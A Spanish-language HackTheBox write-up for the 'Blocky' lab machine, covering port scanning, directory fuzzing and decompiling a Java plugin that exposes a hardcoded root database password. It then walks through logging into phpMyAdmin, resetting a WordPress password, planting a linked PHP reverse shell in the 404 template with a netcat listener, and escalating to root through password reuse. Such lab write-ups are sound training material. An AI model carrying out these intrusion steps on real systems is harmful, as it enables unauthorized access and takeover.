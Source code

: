 ```yaml
---
title: Blocky - HTB Machine
description: "Máquina linux de dificultad EASY de la plataforma HackTheBox. Se tratan temas de lectura de ficheros java y sql"
date: 2021-09-24
pubDate: 2021-09-24
image: /image/htb-writeup-blocky/portada-blocky.png
categories:
  - writeup
  - HackTheBox
tags:
  - java
  - sql
  - wordpress
  - easy
  - linux
---
```


![](/image/htb-writeup-blocky/portada-blocky.png)

Blocky es una máquina linux relativamente sencilla. Y con relativamente me refiero a que tiene una solución tan simple que como no la pilles desde el primer momento te va a costar. Si este es tu caso no te preocupes, aquí verás como se resuelve paso a paso y tendrás a tu disposición un índice para ir donde te interesa sin comerte spoilers. Dicho esto, pongámonos manos a la obra.

## Índice
- [Índice](#índice)
- [Fase de reconocimiento](#fase-de-reconocimiento)
  - [Reconocimiento de puertos y servicios](#reconocimiento-de-puertos-y-servicios)
  - [Reconocimiento de la página web](#reconocimiento-de-la-página-web)
  - [Fuzzing de la web](#fuzzing-de-la-web)
- [Fase de explotación](#fase-de-explotación)
- [Escalada de privilegios](#escalada-de-privilegios)

<a id="reconocimiento"></a>
## Fase de reconocimiento

### Reconocimiento de puertos y servicios


Empezaremos utilizando nmap para descubrir los puertos abiertos accesibles(digo accesibles ya que la máquina puede tener más puertos abiertos pero que solo son accesibles desde la misma).
```bash
nmap -p- -sS --min-rate 5000 --open -Pn -n -vvvv 10.10.10.37 -oN writeup-scan-ports
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 15:40 CEST
Initiating SYN Stealth Scan at 15:40
Scanning 10.10.10.37 [65535 ports]
Discovered open port 80/tcp on 10.10.10.37
Discovered open port 21/tcp on 10.10.10.37
Discovered open port 22/tcp on 10.10.10.37
Discovered open port 25565/tcp on 10.10.10.37
Completed SYN Stealth Scan at 15:40, 30.42s elapsed (65535 total ports)
Nmap scan report for 10.10.10.37
Host is up, received user-set (1.1s latency).
Scanned at 2021-09-24 15:40:00 CEST for 30s
Not shown: 65530 filtered ports, 1 closed port
Reason: 65530 no-responses and 1 reset
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   REASON
21/tcp    open  ftp       syn-ack ttl 63
22/tcp    open  ssh       syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
25565/tcp open  minecraft syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 30.51 seconds
           Raw packets sent: 131081 (5.768MB) | Rcvd: 30 (1.312KB)
```

Como podemos observar, hay varios puertos interesantes. En el puerto 21 corre un servicio *ftp*. Esto nos daría la idea de probar si nos pudieramos identificar con el usuario anonymous y sin contraseña pero en este caso no funciona. También hay un servicio *ssh* que puede que nos sirva de ayuda más adelante, un servicio *http* donde se encuentra la página web y por último pero no menos importante, un servidor de minecraft. Este último nos da una pequeña pista de lo que tendremos que hacer después aunque no utilicemos este puerto.

Una vez escaneados los puertos, escanearemos más en profundidad para ver que servicios usan y sus respectivas versiones.

```bash
nmap -sC -sV -p21,22,80,25565 -oN targeted 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.054s latency).

PORT      STATE SERVICE   VERSION
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 24 13:19:42 2021 -- 1 IP address (1 host up) scanned in 11.28 seconds

```

Lo más importante que hay que destacar del escaneo es que el servidor utiliza un Wordpress de version 4.8. Sin embargo, si buscamos exploits de esta version o utilizamos herramientas como wpscan nos daremos cuenta de que no existe ninguna vía potencial de explotación. Al igual pasa con el servicio ProFTPD 1.3.5a.

<a id="reconocimiento-web"></a>
### Reconocimiento de la página web


Una vez habiendo escaneado al servidor, es hora de analizar la página manualmente. Como tiene un servicio http corriendo en el puerto 80 apuntamos a la dirección de la máquina desde nuestro navegador.

![](/image/htb-writeup-blocky/pg-principal.PNG)

Tras no encontrar ninguna vulnerabilidad en el wordpress y haber trasteado con la página web, la única información de valor que podemos obtener es la del nombre de un usuario: ```notch```. Sin embargo, si intentamos logearnos con credenciales por defecto como 1234 o admin como contraseña o incluso si aplicamos fuerza bruta con el diccionario de *rockyou.txt* no conseguimos nada. A estas alturas lo mejor es ir en busca de directorios ocultos en el sitio web.

<a id="fuzzing"></a>
### Fuzzing de la web

Para fuzzear la página he utilizado la herramienta wfuzz con el diccionario directory-list-2.3-medium de dirbuster:

```bash

wfuzz -c --hw=3592 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 10.10.10.37/FUZZ
 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.37/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000190:   301        9 L      28 W       309 Ch      "wiki"                            
000000241:   301        9 L      28 W       315 Ch      "wp-content"                           
000000519:   301        9 L      28 W       312 Ch      "plugins"                                
000000786:   301        9 L      28 W       316 Ch      "wp-includes"                    
000001073:   301        9 L      28 W       315 Ch      "javascript"
000007180:   301        9 L      28 W       313 Ch      "wp-admin"                               
000010825:   301        9 L      28 W       315 Ch      "phpmyadmin"
```

Como podemos observar, hay una ruta llamada plugins. 

<a id="explotacion"></a>

![](/image/htb-writeup-blocky/plugins.PNG)

## Fase de explotación

Descarguémonos los plugins para ver que contienen. Como .jar es una extensión de un archivo comprimido los descomprimimos con ```unzip [nombre del archivo]```. 
Una vez hecho esto nos centraremos en el plugin *BlockyCore.class* que se encuentra dentro de la carpeta ```com->myfirstpuglin```.

Con ```javap -c BlockyCore.class``` diseccionamos el código y encontramos lo siguiente:

```bash
public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
```

Como podemos observar, hay credenciales para el usuario root de lo que sería problamente el phpmyadmin que encontramos cuando fuzzeamos. Las probamos y entramos como root.

![](/image/htb-writeup-blocky/phpmyadmin-login.PNG)

Una vez dentro, como hemos entrado con permisos de administrador, podemos modificar la contraseña de wordpress del usuario notch.

![](/image/htb-writeup-blocky/phpmyadmin-change1.PNG)

![](/image/htb-writeup-blocky/phpmyadmin-change2.PNG)

Ahora entramos en wordpress como usuario administrador y hacemos una reverse shell. Para ello nos dirigimos a ```Appearance->Editor``` y modificamos la plantilla 404.php.

![](/image/htb-writeup-blocky/wp-login_reverse_shell.PNG)

En ella pegamos este <a href="https://github.com/jivoi/pentest/blob/master/shell/rshell.php" target="_blank">script de reverse shell</a>.

Editamos la ip y el puerto en el script, además de ponernos en escucha desde nuestro ordenador de atacante:

```bash
nc -nlvp 443 
```
En mi caso me he puesto en escucha por el puerto 443. Ahora, abrimos la página web por la ruta [IP]/?p=404.php para que nos apunte a nuestro código php malicioso. Esto nos mandará una shell a nuestro netcat dandónos acceso al servidor como el usuario www-data.


<a id="escalada"></a>

## Escalada de privilegios

A estas alturas del ataque deberíamos de hacer un reconocimiento del sistema buscando potenciales vectores de ataque como las capabilities o los archivos SUID. No obstante, la solución es mucho más sencilla que eso. Si utilizamos la contraseña de phpmyadmin para convertirte en notch (```su notch```), nos damos cuenta de que es la misma. Como notch es un sudoer podemos hacer ```sudo su``` y con la contraseña de notch nos convertimos en root.


Evidentemente hay muchas maneras distintas de comprometer un servidor, en este caso por ejemplo podríamos haber intentado un *ssh* con el usuario notch y la contraseña de phpmyadmin e igualmente hubieramos entrado al sistema. De todas formas esta es la forma que encuentro más coherente de operar.
